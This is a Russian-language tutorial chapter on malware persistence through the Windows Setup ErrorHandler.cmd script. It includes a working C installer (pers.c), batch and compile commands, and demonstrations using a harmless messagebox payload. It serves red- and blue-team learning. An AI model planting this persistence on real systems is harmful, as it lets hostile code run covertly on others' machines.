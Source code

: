\newpage
\subsection{88. разработка вредоносного ПО: закрепление (persistence) - часть 22. Windows Setup. Простой пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

![pers](./images/104/2023-07-17_00-13.png){width="80%"}    

Этот пост основан на моем собственном исследовании одной из интересных техник закрепления вредоносного ПО: через сценарий Windows Setup.     

### сценарий установки

`C:\WINDOWS\system32\oobe\Setup.exe` - это исполняемый файл операционной системы Windows. Директория `oobe` означает *"Out Of Box Experience"* - процесс настройки Windows при первом запуске, включающий создание учетной записи пользователя, настройку параметров, выбор настроек по умолчанию и т. д.     

![pers](./images/104/2023-07-16_22-58.png){width="80%"}    

Оказывается, если разместить полезную нагрузку в `c:\WINDOWS\Setup\Scripts\ErrorHandler.cmd`, `c:\WINDOWS\system32\oobe\Setup.exe` будет загружать её при возникновении ошибки.     

### практический пример

Рассмотрим практический пример. Прежде всего, как обычно, создаем "вредоносное" приложение. Для простоты, как обычно, это `meow-meow` messagebox "вредоносное" приложение (`hack.c`):  

```cpp
/*
hack.c
вредоносное приложение для закрепления в Windows
aвтор: @cocomelonc
https://cocomelonc.github.io/malware/2023/07/16/malware-pers-22.html
*/
#include <windows.h>
#pragma comment (lib, "user32.lib")

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, 
LPSTR lpCmdLine, int nCmdShow) {
  MessageBox(NULL, "Meow-meow!", "=^..^=", MB_OK);
  return 0;
}
```

А затем просто создаем файл `ErrorHandler.cmd` для закрепления:      

```powershell
@echo off
"C:\Users\user\Desktop\research\2023-07-16-malware-pers-22\hack.exe"
```

Как можно видеть, логика довольно простая.    

### демонстрация

Давайте посмотрим, как все работает на практике. Прежде всего, компилируем наше "вредоносное" ПО:      

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/104/2023-07-16_23-47.png){width="80%"}    

Затем перемещаем наш `ErrorHandler.cmd` в `C:\Windows\Setup\Scripts\`:     

![pers](./images/104/2023-07-17_00-10.png){width="80%"}    

Ок, следующий шаг - нужно запустить `Setup.exe` с ошибкой. Самый простой способ - выполнить `Setup.exe` без аргументов:     

```powershell
.\Setup.exe
```

![pers](./images/104/2023-07-17_00-13_1.png){width="80%"}    

Если открыть `Process Hacker` и посмотреть свойства `hack.exe`:     

![pers](./images/104/2023-07-17_01-52.png){width="80%"}    

Можно заметить, что его родительский процесс - `cmd.exe (7264)`,       

![pers](./images/104/2023-07-17_01-53.png){width="80%"}    

А его родительский процесс, в свою очередь, - `Setup.exe (4876)`:     

![pers](./images/104/2023-07-17_01-53_1.png){width="80%"}    

Как можно видеть, логика закрепления работает идеально! =^..^=         

### практический пример 2. скрипт закрепления

Для полноты эксперимента я создал файл `pers.c`:     

```cpp
/*
pers.c
windows persistence via Windows Setup
author: @cocomelonc
https://cocomelonc.github.io/malware/2023/07/16/malware-pers-22.html
*/
#include <windows.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
  // create the directory if not exist
  if (!CreateDirectory("C:\\WINDOWS\\Setup\\Scripts", NULL)) {
    DWORD error = GetLastError();
    if (error != ERROR_ALREADY_EXISTS) {
      printf("failed to create directory. error: %lu\n", error);
      return -1;
    }
  }

  // open the file for writing
  HANDLE hFile = CreateFile("C:\\WINDOWS\\Setup\\Scripts\\ErrorHandler.cmd", 
  GENERIC_WRITE, 0, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
  if (hFile == INVALID_HANDLE_VALUE) {
    printf("failed to create ErrorHandler file. error: %lu\n", GetLastError());
    return -1;
  }

  // content to write to the file
  const char* data = "@echo 
  off\n\"C:\\Users\\user\\Desktop\\research\\2023-07-16-malware-pers-22\\
  hack.exe\"";

  // write the content to the file
  DWORD bytesWritten;
  if (!WriteFile(hFile, data, strlen(data), &bytesWritten, NULL)) {
    printf("failed to write to ErrorHandler file. error: %lu\n", 
    GetLastError());
  }

  // close the file handle
  CloseHandle(hFile);
  return 0;
}
```

Обратите внимание, что эту программу необходимо запускать с правами администратора, поскольку она пытается создать каталог и файл в `C:\WINDOWS`, что требует прав администратора.

![pers](./images/104/2023-07-17_02-12.png){width="80%"}    

### демонстрация 2

Давайте посмотрим, как все работает на практике. Компилируем наш скрипт закрепления:      

```bash
x86_64-w64-mingw32-g++ -O2 pers.c -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections \
-Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![pers](./images/104/2023-07-17_02-07.png){width="80%"}    

Затем просто запускаем его с административными привилегиями на машине жертвы:     

```powershell
.\pers.exe
```

![pers](./images/104/2023-07-17_02-13.png){width="80%"}    

В моем случае, перед запуском я удалил эту папку:    

![pers](./images/104/2023-07-17_02-10.png){width="80%"}    

Запускаем `Setup.exe` снова:    

![pers](./images/104/2023-07-17_02-15.png){width="80%"}    

![pers](./images/104/2023-07-17_02-15_1.png){width="80%"}    

Идеально! =^..^=    

### заключение

Это обычное имя файла установочного пакета. В данном случае оно является частью процесса установки и инициализации Windows. Файл используется во время установки операционной системы, а также при добавлении или изменении компонентов.     

Как видно, однако, следует отметить, что, хотя это легитимная часть операционной системы Windows, вредоносные программы иногда могут называть себя `Setup.exe`, чтобы избежать обнаружения.      

В папке `c:\WINDOWS\system32\oobe\` также находятся другие файлы:      

![pers](./images/104/2023-07-16_22-59.png){width="80%"}    

Я их не проверял.     

Этот трюк ранее исследовался [hexacorn](https://www.hexacorn.com/blog/2022/01/16/beyond-good-ol-run-key-part-135/):

![pers](./images/104/2023-07-17_02-26.png){width="80%"}    

Я просто показываю "грязный" PoC-код на C: `pers.c`.     

Надеюсь, этот пост повысит осведомленность синих команд об этой интересной технике и добавит оружие в арсенал красных команд.   

[Malware persistence: part 1](https://cocomelonc.github.io/tutorial/2022/04/20/malware-pers-1.html)       
[https://www.hexacorn.com/blog/2022/01/16/beyond-good-ol-run-key-part-135/](https://www.hexacorn.com/blog/2022/01/16/beyond-good-ol-run-key-part-135/)      
[https://twitter.com/Hexacorn/status/1482484486994640896](https://twitter.com/Hexacorn/status/1482484486994640896)     
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2023-07-16-malware-pers-22)     
